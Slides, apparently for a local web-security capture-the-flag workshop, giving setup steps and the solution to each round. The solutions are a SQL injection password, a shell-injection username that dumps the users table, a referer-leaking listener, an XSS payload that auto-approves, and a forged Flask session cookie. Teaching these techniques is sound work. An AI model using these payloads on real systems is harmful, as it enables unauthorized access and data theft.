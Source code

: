 ## Marketplace CTF



## What is it?
Find security holes in apps.

Multiple rounds getting harder each round.

Around 15 mins per round.

Followed by discussion.



## Don't worry
If you can't get the answers.

Learning and actually doing vulnerabilities is the point of this.



## To run
Set up a python virtualenv (eg: marketplace-ctf)

Install:

```bash
pip install Flask
pip install python-memcached
pip install requests
```



## Also
Optional:

```bash
brew install phantomjs
```



## Although...
All things are local and you could just open the db or the secret file or whatever... and read it.

That's not really the point is it?



## Do not
DOS

rm -rf

Be a meanie



## Round 1
My cool app requires a username and password to get in. It's really, really well protected (not).

Goal: **Log in**



## Round 1
SQL Injection

set password to:

```sql
' OR '1
```



## Round 2
The admin user keeps forgetting their password. So I added a hint to remind them.

Goal: **Log in**



## Round 2
Shell injection

set username to:

```bash
admin;sqlite3 the.db "SELECT * FROM users";#
```



## Round 3
We've written this cool way to review web apps. Add an app as some JSON and reviewers will access the review page. Reviewers will visit any URL given in the JSON.

Goal: **Access the review page**



## Round 3
Referer leaking

upload an app format:

```json
{"url": "http://localhost:9999"}
```



## Round 3
Then run a server that looks like this:

```python
from flask import Flask, request
app = Flask(__name__)

@app.route('/')
def test():
    print request.headers
    return 'done'

if __name__ == '__main__':
    app.debug = True
    app.run(host='0.0.0.0', port=9999)
```



## Round 3
HTTPS > HTTP *No referrer*

HTTPS > HTTPS *Referrer shown*

https://bugzilla.mozilla.org/show_bug.cgi?id=704320

http://smerity.com/articles/2013/where_did_all_the_http_referrers_go.html



## Round 4
So we've closed down the whole in Round 3. And added a description field where you can add some HTML. Also actually added a working Approve and Deny button.

Goal: **Approve your app**



## Round 4
XSS

```json
{"url": "http://foo.com",
"description": "&lt;script>window.onload = function() {
    document.getElementsByTagName('input')[1].click();
}&lt;/script>"}
```

* Note: < should not be escaped, but markdown to reveal.js hates me.



## Round 5
This is really similar to round 1, except without the SQL Injection.

Goal: **Get logged in**



## Round 5
Fake cookie

```python
import hashlib

import requests
from flask.sessions import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer

url = URLSafeTimedSerializer('is-it-really-bad-if-this-is-shared',
                             salt='cookie-session',
                             serializer=TaggedJSONSerializer(),
                             signer_kwargs={'key_derivation': 'hmac',
                                            'digest_method': hashlib.sha1})

cookie = url.dumps({'user': 'admin'})
res = requests.get('http://localhost:5000', cookies={'session': cookie })
assert 'So logged in' in res.text
```



## Round 6
To come



## Round 7
This one is homework, give it a try if you like, not for today.




## Security bugs
There is a classification of security bugs.

https://wiki.mozilla.org/Security_Severity_Ratings

A very small portion of security bugs use this clasification, we should do that more.



## By category
- wsec-authentication: 4
- wsec-authorization: 0
- wsec-cookie: 1
- wsec-crossdomain: 1
- wsec-crypto: 1
- **wsec-csrf: 11**
- wsec-disclosure: 2
- wsec-dos: 1
- wsec-errorhandling: 1
- wsec-impersonation: 4
- wsec-injection: 0
- wsec-input: 0
- wsec-logging: 0
- wsec-other: 6
- wsec-session: 1
- wsec-sqli: 0
- **wsec-xss: 33**
